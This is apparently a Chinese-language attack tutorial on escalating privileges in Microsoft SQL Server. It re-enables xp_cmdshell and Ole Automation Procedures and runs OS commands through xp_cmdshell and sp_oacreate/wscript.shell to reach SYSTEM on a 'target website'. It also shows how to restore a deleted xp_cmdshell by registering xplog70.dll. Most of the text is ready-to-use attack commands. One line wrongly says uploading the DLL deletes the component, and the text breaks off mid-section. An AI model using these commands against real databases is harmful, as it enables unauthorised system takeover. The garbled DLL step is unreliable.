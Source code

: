 ```
使用sql server的客户端连接数据库
sql sever有一个自带的系统数据库master，而xp_cmdshell在 存储过程、扩展存储过程中

查看扩展存储过程，如果其中含有 sys.xp_cmdshell 说明目标网站没有删除该组件，只是默认把该组件禁止，如果没有看到该组件说明已删除xp_cmdshell，那么可以上传dll文件进行删除，其中dll文件要根据sql server 数据库版本进行选择

选择数据库后，再进行新建查询

执行"EXEC master.dbo.xp_cmdshell 'whoami'"命令后，报错提示 xp_cmdshell 被关闭

那么就使用开启 xp_cmdshell 的命令（只有sa权限才可以开启）
EXEC sp_configure 'show advanced options', 1
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

开启 xp_cmdshell 之后，再次执行 EXEC master.dbo.xp_cmdshell 'whoami' 命令，成功提权到system权限。

##简单总结
xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重新开启它。

启用：
EXEC sp_configure 'show advanced options', 1
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

关闭：
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 0;
reconfigure;

执行：
EXEC master.dbo.xp_cmdshell '命令'

如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll'
```

##### 使用sp_oacreate进行提权

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
执行命令后，报错提示 sp_oacreate组件 被关闭

那么就使用开启 xp_cmdshell 的命令（只有sa权限才可以开启）
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   

开启之后，whoami查看权限

##总结
启用：
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   

关闭：
```